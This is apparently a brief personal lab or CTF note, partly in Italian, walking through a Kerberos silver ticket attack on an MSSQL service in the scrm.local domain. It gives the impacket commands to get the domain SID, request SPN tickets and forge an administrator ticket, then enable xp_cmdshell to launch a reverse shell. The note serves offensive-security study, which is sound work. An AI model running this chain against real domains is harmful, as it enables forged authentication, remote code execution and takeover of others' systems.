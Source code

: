 ### **SILVER TICKET ATTACK**
To perform the silver ticket attack against the SQL service we need three things: 	
1. The NTLM hash of the password of the SqlSvc account. (TGT?)
2. The domain SID. 
```basH
impacket-getPac -targetUser <USER> <DOMAIN>/<USER>:<PASS>
```
3. The SPN that the SqlSvc account is using.
```bash
GetUserSPNs.py <DOMAIN>/<USER>:<PASS> -k -dc-ip dc1.scrm.local -no-pass -request
```

Possiamo quindi ora ottenere il silver ticket
```bash
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -nthash <sqlsvc NTLM hash> -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local administrator
```
![[Pasted image 20230621120729.png]]
exporta il ticket
```bash
export KRB5CCNAME=/tmp/administrator.ccache
```
se funziona tutto con klist dovresti vedere ciò
![[Pasted image 20230621121052.png]]
connettiti con 
```bash
impacket-mssqlclient -k <macchina>
```
### **RCE**
```bash
enable_xp_cmdshell;
```

```bash
xp_cmdshell <REV SHELL>
```
consiglio la powershell #3 (base64)
